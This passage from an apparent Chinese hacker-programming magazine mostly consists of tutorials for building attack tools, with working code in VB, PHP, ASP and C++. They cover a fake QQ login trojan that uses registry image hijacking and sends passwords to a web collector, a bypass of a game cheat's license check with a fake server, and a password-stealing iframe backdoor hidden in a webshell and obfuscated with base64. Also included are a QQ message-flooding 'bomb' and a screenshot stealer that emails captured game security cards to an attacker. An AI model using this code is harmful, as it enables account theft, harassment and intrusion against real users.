    wsprintf(buff,"%d",pe.th32ProcessID);
    m_ListCtrl.InsertItem(i,buf);
    m_ListCtrl.SetItemText(i,1,buff);
    memset(buf,0x00,100);
    memset(buff,0x00,100);
    process = Process32Next(hProcess,&pe);
    i++;
}
CloseHandle(hProcess);
SetDlgItemText(IDOK,_T("刷新"));
```


图5

我来简单地解释一下，SetExtendedStyle()函数是CList类的一个成员函数，它是用来设置我们添加的List控件的风格的，这里我们传递的参数就是整行选中和网状形式……下面两句就是添加两列，并分别命名为“进程名”和“PID”。


图6

初始化代码我们就添加好了，接下来就是程序的关键代码了。我们调出刚才制作好的程序主界面，然后双击“查看进程”按钮，加入以下代码：

```cpp
m_ListCtrl.DeleteAllItems();
int i = 0;
HANDLE hProcess = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS,0);
if(hProcess==INVALID_HANDLE_VALUE)
{
    // ...
}
```

为了方便代码的理解，我都添加了注释，基本思路是建立一个进程快照，然后将信息写入控件列表，再查找下一个进程，直到找完为止。别忘了`#include <tlhelp32.h>`，相关函数和PROCESSENTRY32结构体定义在该头文件中。


图7

同样的，在“统计进程数”消息响应函数中加入以下的代码：

```cpp
char str[20];
wsprintf(str,"一共有%d个进程！",m_ListCtrl.GetItemCount());
AfxMessageBox(str);
```

最后来编译程序，顺利地通过了，至此我们的进程查看器就编写好了，来运行一下看看效果，如图7。

这个程序的功能非常简单，不过却很实用，其实我们还可以添加右键菜单来实现结束进程（用到的函数就是TerminateProcess()）等功能，关于添加这些功能去完善这个小程序，就交给大家去完成吧！

> （文章中涉及到的相关代码已经收录在了光盘中）

## VB编写界面仿造型盗号木马

丁继竹

最近，网上出现了一款名为“QQ提示大盗”的盗号木马，该木马主要是通过伪造QQ的登录界面来达到盗取用户账号和密码信息的。电脑中了该木马后的主要表现就是正在运行的QQ进程突然崩溃，并且弹出一个“程序运行错误”的提示框，如图1。

“错误报告”窗口正是该木马的狡猾之处。由于腾讯QQ一直都有这样一个“错误报告”程序，因此很多用户对它都不会产生过多的怀疑，当用户习惯性地点“确定”按钮后，木马就会弹出一个新的QQ登录窗口，如图2，当然这个窗口是伪造的。

实际上我们只需要仔细观察就可以发现这个界面有很多破绽，比如窗口的最下方有一部分多出来的图片，这明显是从资源文件里提取出来；又比如当使用鼠标点击“状态”按钮时，弹出的列表框位置明显和平时不同。但尽管如此，仍然还是有很多粗心大意的朋友会忽略这些，他们会迅速地输入账号和密码，并点击“确定”按钮，这时程序会停顿几秒，然后就会弹出一个“登录失败，请重新登录”的提示窗口，这时用户的账号和密码已经发送到盗号者的储信空间里去了。

像这类界面伪造型的盗号木马其实是非常简单的程序，并没有用到什么高级的编程技术，即便是一个初学编程的菜鸟也能够轻松完成的，今天我就为菜鸟们介绍一下如何使用VB来编写一个这样的盗号程序。


整个编程工作分为两个部分，第一部分是木马的主体，负责把我们伪造的QQ登录界面释放到一个指定的目录，然后通过修改注册表把原版QQ映像劫持为我们伪造的QQ登录程序。第二部分就是我们伪造的QQ登录界面，它负责把用户输入的账号和密码信息发送给我们，然后再删除映像劫持的注册表项，使用户能够重新正常登录。需要说明的是，以下这个程序事实上是我在09年编写的，因为QQ2009众多为人诟病的缺点，当时也感觉身边还是使用QQ2008的人更多一些，所以我伪造的是QQ2008的登录界面。

兄弟们看到这个界面，是不是感到非常眼熟啊！这个伪造……

### 一、资源释放与映像劫持

先说说木马主体这个部分，假设我们已经伪造好了QQ的登录界面，打开VB6，新建一个工程，窗体的Visible属性当然是设为“False”，即不可见。添加一个自定义资源文件，也就是我们已经伪造好的QQ登录界面程序，编号和名称都使用默认的，然后双击窗体来到代码编辑区的“Form_Load()”部分，输入以## 黑客编程

如下代码：

```vb
Dim qq() As Byte
Dim s

s = Environ("windir")
s = s + "\system32\q q.exe"

qq = LoadResData(101, "CUSTOM")

Open s For Binary Access Write As #1
Put #1, , qq
Close #1

'把伪装登录窗口释放到system32目录，程序名为“q q.exe”。
```

这段代码的作用就是把资源文件里的程序释放到“system32”目录下，并命名为“q q.exe”（注意中间有个空格）。现在，伪造的登录窗口已经释放到指定目录了，接下来要做的就是映像劫持了。还是在“Form_Load()”部分，继续输入以下代码：

```vb
Set r = CreateObject("wscript.shell")
r.RegWrite "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\qq.EXE\Debugger", "C:\WINDOWS\system32\q q.exe", "REG_SZ"

'把qq.exe映像劫持为q q.exe
```

这段代码的作用就是通过修改注册表，把原版QQ映像劫持为我们刚才释放的伪造登录程序“q q.exe”。这样当用户运行QQ的时候，事实上运行的却是我们的程序。第一部分到这里就结束了，很简单吧，它的目的就是释放资源和映像劫持。接下来是第二部分，伪造的登录界面。

### 二、伪造QQ登录界面

由于小菜我的技术也实在不怎么样，所以伪造的界面也相对粗糙，如图3。至于如何伪造出更好的界面，我就不献丑了，相信大家都有比较好的方法。在这个程序界面上应该包含一个不可见的WebBrowser控件用来发送密码信息，还要包含一个按钮控件作为登录按钮，还有两个TextBox控件用来作为账号和密码的输入框。我把WebBrowser控件命名为了“web1”，并修改其Visible属性为False，把按钮控件命名为了cmdlogin，而两个TextBox控件则分别命名为了txtqq和txtpwd。

由于我们是使用ASP空间收信，所以还得准备一个用来收信的ASP文件，并上传到我们的ASP空间中。直接拿金狐QQ的那个收信文件来简单地修改一下就可以使用了，代码如下：

```asp
<%
strLogFile="QQ.txt"

QQ=request("QQ")
pwd=request("pwd")

if QQ="" or pwd="" then
  response.write "no"
  response.end
End If

StrLogText=StrLogText&QQ&"----"&pwd
StrLogText=StrLogText&")----"&date&" "&time

set f=Server.CreateObject("scripting.filesystemobject")
set ff=f.opentextfile(server.mappath(".")&"\"&strLogFile,8,true,0)
ff.writeline(chr(13)+chr(10)&StrLogText)
ff.close
set ff=nothing
set f=nothing

response.write "发送成功!"
%>
```


图3

当这个ASP文件接收到密码信息后就会把它保存到同一目录下的“QQ.txt”文件中，当然这个文件名我们可以任意设置。到这里，发送密码的任务也完成了。直接在cmd下使用密码的Hash加密值来登录，所以接下来我们要做的就是让用户能够正常登录。关于QQ密码的加密方法，在以前的杂志上曾经有多篇文章介绍过，在此我就不再赘述了。

我直接从网上找了一个QQ密码加密模块，添加到工程里就可以对用户输入的明文密码进行加密了。在cmd下登录QQ的命令格式为“qq路径 /START QQUIN:QQ号 PWDHASH:加密的密码”，我们需要先通过读取注册表来获得QQ2008的安装路径，然后就可以调用cmd使用密码加密值来登录了。需要注意的是，这时候QQ.exe已经被映像劫持了，所以在调用cmd登录QQ前，还要先通过修改注册表来解除映像劫持才行。

双击界面上的按钮控件，来到“Private Sub cmdlogin_Click()”部分，输入以下代码：

```vb
On Error Resume Next
If txtqq.Text = "" Or txtpwd.Text = "" Then
    MsgBox("账号或密码不能为空")
    Exit Sub
End If

Web1.Navigate "http://.../qq.asp?qq=" & txtqq.Text & "&pwd=" & txtpwd.Text
```

以上就是简单地判断一下用户输入的账号和密码是否为空，这段代码大家可以继续完善一下，比如增加一些输入是否为数字、密码是否在6位以上的判断等。接下来就是通过Web1这个控件，把用户输入的密码信息发送到我们的收信空间。还是在cmdlogin_Click()这个部分，继续输入以下代码：

```vb
Dim r
Set r = CreateObject("wscript.shell")
r.RegDelete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\qq.EXE\Debugger"

Dim qqpath
qqpath = CreateObject("Wscript.Shell").RegRead("HKEY_LOCAL_MACHINE\SOFTWARE\TENCENT\QQ\Install") & "QQ.exe"

qqpwd = Str2QQPwdHash(txtpwd.Text)
Shell qqpath & " /START QQUIN:" & txtuin.Text & " PWDHASH:" & qqpwd

End  '调用cmd登录后，退出伪造窗口
```

这段代码的作用我在注释里已经说得很清楚了，但是我们为Private Sub cmdlogin_Click()事件输入的代码是针对QQ2008的。众所周知，QQ2009已经不能够在cmd下通过密码加密值来登录了，目前似乎也没有其它方法能够登录QQ2009，所以对于QQ2009我们不能进行这样的处理。那该如何解决呢？我的解决方法还是像“QQ提示大盗”那样，在发出密码信息后，就弹出一个“登录失败，请重新登录”的对话框，然后再运行正常的QQ程序，使用户能够重新正常地登录。其实这时候即便用户发觉也已经晚了，因为他的账号和密码已经发送出去了。具体的代码如下：

```vb
MsgBox("登录失败，请重新登录")

Dim r
Set r = CreateObject("wscript.shell")
r.RegDelete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\qq.EXE\Debugger"

Dim qqpath09
qqpath09 = CreateObject("WScript.Shell").RegRead("HKEY_LOCAL_MACHINE\SOFTWARE\Tencent\QQ2009\Install") & "\Bin\QQ.exe"

Shell qqpath09
End
```

关于这段代码的作用，大家看注释就会一目了然了。唯一要提醒大家的是，注册表读取QQ2009的安装路径和QQ2008略有不同，QQ2009是安装在Bin目录下的，大家仔细查看一下就明白了。

好了，以上就是这个程序的主要代码，当然还有很多需要完善的地方，尤其是界面的伪造等部分。小菜我也实在找不出更好的方法了，希望能和大家多多交流。当时我也认为这样一个粗糙的程序应该很容易被人识破，但是事实证明仍然会有很多人会上当，尤其适合朋友之间的恶作剧！

（文章中涉及到的程序代码已经收录在了光盘中）

## 无伤破解网络验证

血色书生 & 仓均熊


自从考上大学以后，我就疯狂地爱上了DNF，但遗憾的是本人天生就没有游戏天赋，35级以后就不能单刷了。在这个外挂横行的年代，练级还是要靠高科技的第三方软件。然而现在的外挂程序几乎比游戏装备还要贵，每次在试用外挂一两个小时之后就被弹出来，这可是一件非常痛苦的事情啊！于是我就发扬了小菜的精神，不怕苦不怕累，开始尝试是否能够永远地试用一款外挂。下面就请跟我进入正题，兵不血刃地来破解网络验证程序，当然是以DNF外挂程序为例。

我相信对于小菜们来说，破解网络认证程序是最头疼也是最恼火的事情了。一般来说，本地程序的破解都是算出注册码或者直接爆破，因为算法就是在本地程序中的，我们只要能顺利地脱壳或者解密，那么进行破解的难度就不是很大。我以前对于网络认证程序也是没什么好方法，总觉得这类程序太过于高端了，不是我等低端小菜所能轻易靠近的。但练级心切的我终于豁出老命，拿出利器WPE，从头到尾地对一款基于网络验证的DNF外挂程序进行了详细的分析。

被我拿来开刀的就是最近比较流行的DNF风云外挂。这款外挂有一小时的免费试用时间，当填上一个没有使用过的QQ号码，点击“免费登录一小时”的时候不会有任何的消息提示，窗口被锁定，标题被改为登录成功，如图1。当QQ号码使用了一个小时后，我们再次点击“免费登录一小时”，就会提示试用期限已经到了的错误提示。

```text
8036>
0010 01 00 00 00 2C B3 51 53 66 9C 19 19 9B 97 71 66
Q$ ... qf
0020 31 32 33 FF EC 0C 20 03 18 98 19 98 C0 B1 74 F3
123 ... t，省略发送的无关字节
...
2 210.245.214.227:3008 192.168.150.128:1383 4 接收
0000 00 00 00 00
```

其实风云外挂程序的封包相对来讲还算是比较简单的，一个发送包一个接收包。发送包一般就是当前的时间、QQ号码之类的，而接收包就是服务器的验证结果。我们再来看看试用期限到了之后的封包情况：

```text
1 192.168.150.128:1394 210.245.214.227:3008 100 发送
0000 38 30 33 36 ...
0010 ...
0020 ... 省略不重要的发送信息
2 210.245.214.227:3008 192.168.150.128:1394 4 接收
0000 F0 FF FF FF
```

大家注意观察两个接收包，毫无疑问它们是不相同的。在反复多次试验后我们可以得出以下结论：当服务器返回“0000 00 00 00 00”时验证通过，当服务器返回“0000 F0 FF FF FF”时验证失败。那么思路也就出来了：我们如果可以让风云外挂无论何时都接收到“0000 00 00 00 00”，那么也就可以无限试用了。

我先来讲一讲破解的常规方法。一般要破解一个网络验证的外挂程序有两种方法：

- 修改程序内的验证服务器IP地址来指向本地（但是通常对于这类程序的脱壳会是个非常棘手的问题）。
- 挂载recv、recvfrom等函数，动态地修改返回数据来满足欺骗程序以达到破解的目的（但是这种破解方法比较复杂，程序也不稳定）。


图1

使用WPE Pro打开风云外挂程序，再次换用一个新QQ号“免费登录一小时”，可以截取到以下的包数据：

```text
1 192.168.150.128:1383 210.245.214.227:3008 100 发送
0000 38 30 33 36 8B 81 3E F0 07 00 00 00 E0 FF FF FF
```

经过本人的一番研究，我发现了一种无伤的破解方法，就是通过虚拟网卡来欺骗本地程序以达到对网络验证的突破。众所周知，在Windows中提供了一种回环的虚拟网卡设备Microsoft Loopback Adapter，我们可以通过“硬件添加向导”->“添加新的硬件设备”->“安装我手动从列表选择的硬件（高级）”->“网络适配器”->“Microsoft Loopback Adapter”，来添加这样一个虚拟网卡，如图2。


图2

有了这样的一个网卡，我们就可以把自己想要的任意地址指向本地了。比如我们要把外挂中的210.245.214.227转向到我们的IP上，那么就可以修改Microsoft Loopback Adapter的TCP/IP协议中的网络地址为210.245.214.227，如图3。

当外挂验证服务器的IP被重定向到了我们本地后，我们还需要偷龙转凤地自己制作一个服务端，对风云外挂发送“0000 00 00 00 00”这些数字，用来欺骗外挂的认证。下面就给出实现的部分程序代码，完整的程序已经收录在了光盘中。


图3

```cpp
void send(void)
{
    WSADATA wsadata;
    SOCKET sListen = NULL;
    SOCKET sClient = NULL;
    SOCKADDR_IN serverAddr;
    SOCKADDR_IN clientAddr;
    int clientAddrLen = NULL;
    int nResult = NULL;
    int data[2] = {0,0};
    int hextosend[4] = {0x00,0x00,0x00,0x00}; // 定义可通过验证的字符

    WSAStartup(MAKEWORD(2,2), &wsadata);
    sListen = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
}
```

```cpp
TO_TCP();

serverAddr.sin_family = AF_INET;
serverAddr.sin_port = htons(3008);
serverAddr.sin_addr.s_addr = inet_addr("210.245.214.227"); // 注意这里一定要填成虚拟网卡设置的IP地址，否则无法上线
memset((&serverAddr.sin_zero), 0, sizeof(serverAddr.sin_zero));
nResult = bind(sListen, (SOCKADDR *)&serverAddr, sizeof(SOCKADDR));
if (nResult == SOCKET_ERROR)
{
    CString strMsg;
    strMsg.Format(L"error code is %d", GetLastError());
    AfxMessageBox(strMsg);
}

listen(sListen, 5);

//*************************proc*************************

// 接受新的连接
while(1)
{
    clientAddrLen = sizeof(SOCKADDR);
    sClient = accept(sListen, (SOCKADDR *)&clientAddr, &clientAddrLen);
    struct hostent* pHost = gethostbyaddr((char*)&clientAddr.sin_addr, 4, AF_INET);

    if(sClient == INVALID_SOCKET)
    {
        continue;
    }
    else
    {
        nResult = recv(sClient, (char *)data, sizeof(data), 0);
        if (nResult == SOCKET_ERROR)
        {
            continue;
        }

        nResult = send(sClient, (char *)hextosend, sizeof(hextosend), 0);
        closesocket(sClient);
    }
}

closesocket(sListen);
WSACleanup();
```


这样一来，当我们启动服务端的时候，无论输入什么样的QQ号，都不会再有过期的提示了，如图4。这种破解的好处就在于不用考虑程序的加密，因为是通过外部的修改来进行的完美欺骗，所以可以称得上是无伤破解……

> （文章中涉及到的DNF风云外挂、HA-WPE[1].Pro0.9F-Snoopy以及完整的程序代码，已经收录在了光盘中）

## CodeFans“奇‘码’问”

黄莺 [ymu]


这学期在上VB课，于是我就想找一些实例来充实自己……终于在Codefans.net上找到了一个不错的VB程序——QQ好友在线查询器，它的代码相对并不多。为了便于大家的理解，我也添加了一些注释：

```vb
Private Sub Combo1_Change()
    If Len(Combo1.Text) > 4 Then
        Command1.Enabled = True
        Command3.Enabled = True
    Else
        Command1.Enabled = False
        Command3.Enabled = False
    End If
End Sub

Private Sub Command1_Click()
    WebBrowser1.Navigate "http://wpa.qq.com/pa?p=1:" & Combo1.Text & ":1"
End Sub
```

```vb
Private Sub Command3_Click()
    WebBrowser1.Navigate "http://wpa.qq.com/msgrd?v=1&Uin=" & Combo1.Text
End Sub

Private Sub Form_Load()
    Me.Show
End Sub

Private Sub WebBrowser1_NavigateComplete2(ByVal pDisp As Object, URL As Variant)
    ...
End Sub
```

在WebBrowser控件导航到新的URL后发生，即文档正在下载中……而URL就是返回一个标准格式化后的URL。

Combo1.Text也就是你在组合框中输入的QQ号，通过Web浏览器控件的Navigate属性访问腾讯提供的一种在线状态查询接口。该接口返回一张图片来表示用户当前的在线状态，目前系统只支持“在线”和“离线”两种状态。

```vb
Label3.Caption = "正在检查"
Combo1.AddItem Combo1.Text
End Sub

Private Sub Command2_Click()
    End
End Sub
```

If URL = "http://wpa.qq.com/q_online.gif" Then

```vb
If URL = "http:///" Then Exit Sub
    Image3.Visible = True
    Image4.Visible = False
    Label3.Caption = "对方在线"
Else
    Image3.Visible = False
    Image4.Visible = True
    Label3.Caption = "对方离线"
End If
```

# 黑客编程

```vb
Else
    Image3.Visible = False
    Image4.Visible = True
    Label3.Caption = "访问不在线"
End If
...
End Sub
```

到了这儿，也还不是我们的重点。当我在设计界面查找这个 WebBrowser1 控件时，居然没有找到……并且还处于设计模式下呢，怎么可能会自动访问外网呢？

查看了 WebBrowser1 的所有属性，都没有看到有可疑 URL 的，关闭了所有可能连接网络的程序……后来我又询问了其他同学和老师，也看不出是什么问题。

经过了一个星期的冷处理后……最后看到了这个：“Location='http://www.codefans.net'”，猫腻原来在这里。

我整整都闷了一星期。我到网上搜索了一下，发现没有对这个问题的详细解答……自动翻译得非常别扭。其它的属性比如 Location，只能打开 frm 文件来修改。

说到这儿，大家应该知道我的意思了吧，最直接的就是把 Location 指向你的网站，来增加网站流量……不足之处还请高手们指点！

> （文章中涉及到的 QQ 在线查询器源码，已经收录在了光盘中）


## 了解 Webshell 后门箱子及其编译实现

许多小黑拿站肯定少不了手头的 webshell……如何发现这些后门以及如何实现自己的后门箱子呢？本文就带你去了解黑吃黑的内幕，我们以 PHP 脚本为例。

首先我们得知道自己的 webshell 中到底有没有后门，如何查找呢？拿出 Winsock 抓包工具，打开你的 webshell 登录页面，……

在 Winsock 中选择 IE 进程，准备就绪后，登录你的 webshell，查看抓取到的数据包……我们发现自己的密码被传到 /testphp/web.php 页面了。


看到这儿，相信大家都已经明白了，webshell 后门的原理就是登录后向外发送包含密码的数据包，该数据包被收信程序获取并保存。我们检测的方法就是抓包检测，截获它向外发送的数据。既然原理已经知道了，那我们就也来实现一个后门箱子，制作一个包含有后门的 webshell 和收信程序。

- 在制作之前，我们先考虑好流程：
1. 将代码插入 webshell 中，使其发送密码。
2. 收信程序要保存其地址、密码和时间，还要保证不能重复记录。
3. 进行一些加密，防止太容易暴露。

对于 Webshell 地址，我们可以使用全局变量 `$_SERVER['HTTP_REFERER']`，这个变量保存了来源页地址，这里也就是我们的 webshell URL 了。密码数据量小，可以直接 GET 获取。大家要注意编码，防止记录出错。下面就是箱子的技术核心：如何保证不重复记录。如果只验证来源 URL 是否一样，倘若对方更改了 webshell 密码，则无法再次记录，所以 URL 和密码都要检测重不重复。下面给出代码：

```php
<?php
if(isset($_GET['xx'])){
    // 记录时间
    $date="\n".date("Y-m-d");
    // 将url和密码放在一个字符串中
    $a="\nWEB: ".$_SERVER['HTTP_REFERER']." password: ".$_GET['xx'];

    if(file_exists('web.txt')){
        $cont=file_get_contents('web.txt');
        if(!stristr($cont,$a)){
            $f=fopen("web.txt","a+");
            fwrite($f,$date);
            fwrite($f,$a);
            fclose($f);
        }
    } else {
        $f=fopen("web.txt","a+");
        fwrite($f,$date);
        fwrite($f,$a);
        fclose($f);
    }
}
?>
```

```php
)
}
?>
```

以上就是 PHP 收信脚本文件，接下来就是如何在 webshell 里插入后门了。我们以 angle 的 phpspy 为例，注意插入的位置，当用户登录成功后才能发送。文件部分代码如下：

```php
if($doing=="login"){
    if($admin['pass']==$password){
        scookie('phpspypass',$password);
        p('<meta http-equiv="refresh" content="1;URL='.$self.'">');
        p('<iframe width=0 height=0 src=http://localhost/testphp/web.php?xx='.urlencode($password).'></iframe>');
        p('<a style="font:12px Verdana" href="'.$self.'">Success</a>');
        exit;
    }
}
```

我们使用 phpspy 自写的输出函数 `p()` 写入后门（利用 `<iframe>` 标签），当密码验证成功后就执行 `<iframe>`，其属性指向我们的收信程序。我们来测试一下，如图 3 所示，即使多次登录也只会记录一次，改变密码则会再次记录，如图 4。为了防止收信地址明显暴露，我们可以对文件再进行一次 base64 加密，如图 5。Base64 加密后，同样也会有很好的免杀效果。


```php
<?php
@eval(base64_decode('...'))
?>
```

图5

Webshell 的后门原理就是这么简单，以后大家就可以不再给别人当苦工了，呵呵，学会了这个方法后可不要干坏事哦！

（文章中涉及到的 phpencode.php 和 web.php 已经收录在了光盘中）


## 轰炸指令 VB 执行！

### ——打造属于自己的 QQ 炸弹

### 炫风舞（中国鹰派联盟）

本文我们将使用 VB6.0 制作一款针对 QQ 的远程“轰炸机”，程序的主界面如图 1 所示。这款远程“轰炸机”的“炸弹”就是文字，其攻击方式就是不间断地循环发送预先设置好的文字，以实现对 QQ 的“狂轰滥炸”。

```vb
Text1.Text = "在这里输入自己想说的文字"
Text2.Text = 1000
End Sub
```

这段代码的意思就是：Text1（攻击语句）显示文本内容“……”，Text2（攻击频率）显示文本内容为“1000”（攻击频率，默认 1000 毫秒，也就是 1 秒）。我们再来添加三个按钮，名称分别为 Command1、Command2、Command3，这三个按钮要起到的作用分别是“开始攻击”“暂停攻击”和“结束攻击”。


图1

这个 QQ 炸弹程序的代码非常简单，但是它的攻击效果却十分明显，被攻击者面对洪水般的攻击文字，除了下线外几乎没有更好的解决办法……

下面我们就开始编写程序：打开 VB6.0，新建一个标准 EXE 工程，先在程序窗体上添加两个 Text 控件，分别用来设置攻击语句和攻击频率（也就是文字的发送速度），攻击频率我们以毫秒作为单位（1000 毫秒 = 1 秒）。接下来，对这两个 Text 控件进行声明，写入以下代码：

```vb
Private Sub Command1_Click()
    Timer1.Interval = Text2.Text
    Timer1.Timer
    Timer1.Enabled = True
    Command1.Enabled = False
    Command2.Enabled = True
End Sub

Private Sub Command2_Click()
    Timer1.Interval = 0
    Command1.Enabled = True
    Command2.Enabled = True
End Sub

Private Sub Command3_Click()
    End
End Sub
```

```vb
Private Sub Form_Load()
    MsgBox "无论以何种形式攻击他人QQ均属于非法行为！"
End Sub
```

以上代码的意思就是：按下 Command1（开始攻击）按钮，开始发送 Text1 控件的文本内容；按下 Command2（暂停攻击）按钮，停止发送 Text1 控件的文本内容；按下 Command3（结束攻击）按钮，结束程序（停止攻击）按钮，结束程序的运行。

最后我们在程序界面上再添加一个 Timer1（时钟）控件，它的作用就是控制语句的循环发送，写入以下的代码：

```vb
Private Sub Timer1_Timer()
Dim str As String
str = Text1.Text
SendKeys str
SendKeys "^%"
End Sub
```

```vb
For Gointo = 1 To GotoVal
DoEvents
Me.Height = Me.Height - 50
If Me.Height <= 10 Then End
Next Gointo
End
End Sub
```

这段代码的意思就是：当按下 Command1（开始攻击）控件时，将会按照 Text2 控件中设置的时间参数来循环发送 Text1 控件中的文本内容。最后，我们在程序代码中定义“XuanFeng-Wu”这个常量，代码如下：

```vb
Private Sub Form_Unload(Cancel As Integer)
XuanFengWu
End Sub

Sub XuanFengWu()
GotoVal = (Me.Height / 12)
```

到这里，我们的“轰炸机”就基本完成了，如图 2 所示。最后再在程序的主界面上添加两个 Label 控件，在 Label1 控件的 Caption 属性里写上使用说明（下面我会介绍如何使用），在 Text2 控件上方添加 Label2 控件，在其 Caption 属性中写入时间说明：“在下面设置时间间隔 单位：毫秒”，如图 3。现在，我们的“轰炸机”就可以出厂了，拿出来试试它的轰炸威力吧！

使用方法非常简单：设置好攻击语句（也可以直接使用默认设置的语句）和轰炸频率，点击“开始攻击”，再点击一下与攻击目标 QQ 聊天窗口的发送栏就可以了（这时不要动鼠标了），来看看它的攻击效果吧，如图 4 所示，怎么样？哈哈，对方彻底无语了，暗爽ing！

> （文章中涉及到的 QQ 炸弹程序以及源代码，已经收录在了光盘中）


## 找发密保卡的幽叹之道

话说当今的网络，各式各样的杀毒软件层出不穷，什么主动防御、启发式杀毒、云查杀等等，各种各样的杀毒技术也逐渐地走向了成熟，而我们这些叉子可就难混了，小马好不容易才诞生，说不准明天就要说 88 了，而针对网游的盗号木马就更不好混了，哪怕是不被查杀，但面对千奇百怪的密保卡也只能是“望卡兴叹”了！没办法，为了生活，小菜我只好操刀上阵，亲自和密保卡过招了……

### 一、思路分析

密保卡是游戏公司为游戏账号安全而专门开发的一种图片防盗卡，上面有横坐标和纵坐标，游戏登录的时候会要求输入对应坐标的数字号码，正确后才能登录。目前游戏玩家中有大约八成都使用了密保卡，常见的有腾讯的 DNF、盛大系列的游戏等。而在这八成用户中又有大约七成人为了使用上的方便而把密保卡存储在了网络媒介里，比如 QQ 网盘、51 相册、QQ 空间等（这样就不必随身携带密保卡了）。既然他们把密保卡存储在了网络上，那么他们在登录游戏的时候也就会自己打开，而我们的突破口就是——抓图。

### 二、操刀上阵

思路已经确定了，接下来就开始进行代码的编写，具体的工作流程就是：寻找游戏登录窗口→记录按键信息→抓图→发信→清除图片文件，等待下次操作。相信经常看这个栏目的小菜都有属于自己的键盘记录木马吧（在以前的杂志上我们也曾经介绍过键盘记录型木马的编写），本文我就只介绍抓图和发信的代码，大家可以根据自己的需要整合一下代码就成了。


打开 VB，我们需要一个 TIMER 控件，一个 PictureBox 控件。为了方便测试，我又添加了一个按钮控件，在整合代码的时候把事件触发条件修改掉就可以了。其中 timer 的间隔时间我设置的是 3 秒，触发 10 次，这样一般都能抓取到图了，如图 1。抓图部分的代码比较长，为了节省篇幅，在此我只列出部分代码：

```vb
Private Function PictureBoxSaveJPG(ByVal pict As StdPicture, ByVal filename As String, Optional ByVal quality As Byte = 80) As Boolean
    Dim tSI As GdiplusStartupInput
    Dim lRes As Long
    Dim lGDIP As Long
    Dim lBitmap As Long

    ' 初始化 GDI+
    tSI.GdiplusVersion = 1
    lRes = GdiplusStartup(lGDIP, tSI, 0)

    If lRes = 0 Then
        ' 从句柄创建 GDI+ 图像
        lRes = GdipCreateBitmapFromHBITMAP(pict.Handle, 0, lBitmap)
        If lRes = 0 Then
            Dim tJpgEncoder As GUID
            Dim tParams As EncoderParameters

            ' 初始化解码器的 GUID 标识
            CLSIDFromString StrPtr("{557CF401-1A04-11D3-9A73-0000F81EF32E}"), tJpgEncoder

            ' 设置编码器参数
            tParams.Count = 1
            With tParams.Parameter
                CLSIDFromString StrPtr("{1D5BE4B5-FA4A-452D-9CDD-5DB35105E7EB}"), .GUID
                .NumberOfValues = 1
                .Type = 4
                .Value = VarPtr(quality)
            End With

            ' 保存图像
            lRes = GdipSaveImageToFile(lBitmap, StrPtr(filename), tJpgEncoder, tParams)

            ' 销毁 GDI+ 图像
            GdipDisposeImage lBitmap
        End If

        ' 销毁 GDI+
        GdiplusShutdown lGDIP
    End If

    If lRes Then
        PictureBoxSaveJPG = False
    Else
        PictureBoxSaveJPG = True
    End If
End Function

Private Sub Timer1_Timer()
    Dim tFN As String
    Dim ret As Boolean
    tFN = getFN
    Me.AutoRedraw = True
    Picture1.Width = Screen.Width + 30
    Picture1.Height = Screen.Height + 30
    BitBlt Picture1.hDC, 0, 0, Screen.Width + 30, Screen.Height + 30, ...
```

# 黑客编程

```vb
Height + 30, GetDC(0), 0, 0, vbSrcCopy
Set Picture1.Picture = Picture1.Image

If i = 11 Then
  sendmail
  Timer1.Enabled = False
Else
  ret = PictureBoxSaveJPG(Picture1.Picture, Replace(App.Path & "\\" & rFN & ".JPG", "\\", "\"))  '保存压缩后的图片
End If
End Sub
```

大家可以看到，图片是保存在相对路径下的，这是为了方便发信。根据 i 值的变化来判断抓取几张图了，当 i=11 的时候，就触发 sendmail 过程。发信的过程也很简单，只不过多了个附件的发送，代码如下：

```vb
Sub sendmail()
  On Error Resume Next
  NameSpace = "http://schemas.microsoft.com/cdo/configuration/"

  Set Email = CreateObject("CDO.Message")
  Email.From = "kk222@foxmail.com"   '发信人地址
  Email.To = "538779110@qq.com"      '收信人地址（QQ 的也可以）
  Email.Subject = "哈哈哈。。。生日快乐啊！"  '邮件主题

  a = App.Path & "\\1.jpg"   '需要发送的附件路径（保存时是 1-10 编号）
  b = App.Path & "\\2.jpg"
  c = App.Path & "\\3.jpg"
  d = App.Path & "\\4.jpg"
  e = App.Path & "\\5.jpg"
  f = App.Path & "\\6.jpg"
  g = App.Path & "\\7.jpg"
  h = App.Path & "\\8.jpg"
  i = App.Path & "\\9.jpg"
  j = App.Path & "\\10.jpg"

  Email.TextBody = "测试啊！测试开心"   '邮件正文内容
  Email.AddAttachment a
  Email.AddAttachment b
  Email.AddAttachment c
```

```vb
Email.AddAttachment d
Email.AddAttachment e
Email.AddAttachment f
Email.AddAttachment g
Email.AddAttachment h
Email.AddAttachment i
Email.AddAttachment j

With Email.Configuration.Fields
  .Item(NameSpace & "sendusing") = 2
  .Item(NameSpace & "smtpserver") = "smtp.foxmail.com"  '邮箱服务器地址
  .Item(NameSpace & "smtpserverport") = 25
  .Item(NameSpace & "smtpauthenticate") = 1
  .Item(NameSpace & "sendusername") = "XXXXXXX"   '发信人用户名
  .Item(NameSpace & "sendpassword") = "XXXXXXXX"  '发信人密码
  .Update
End With

Email.Send
Set Email = Nothing   '发信成功后处理

Kill App.Path & "\\1.jpg"
Kill App.Path & "\\2.jpg"
Kill App.Path & "\\3.jpg"
Kill App.Path & "\\4.jpg"
Kill App.Path & "\\5.jpg"
Kill App.Path & "\\6.jpg"
Kill App.Path & "\\7.jpg"
Kill App.Path & "\\8.jpg"
Kill App.Path & "\\9.jpg"
Kill App.Path & "\\10.jpg"

i = 0   '复位
Timer1.Enabled = False   '关闭抓图事件，等待下次触发
End Sub
```


图2

在整合代码的时候，我建议把 timer 事件触发条件放到回车键按下后。经常玩游戏的用户都知道，当回车键按下后，游戏才会弹出个小窗口，要求输入密保卡上的数字，这样抓图才会更准确。程序的测试效果如图2、图3、图4所示，我们把图片下载回来，放大查看就可以得到密保卡了。


文章写到这儿，如果大家还有更好的思路，也希望能够写出来共同分享，只有共同研究，技术才能进步！

（文章中涉及到的程序及源代码，已收录在了光盘中）


## 宽带拨号：木马的启动“精神”

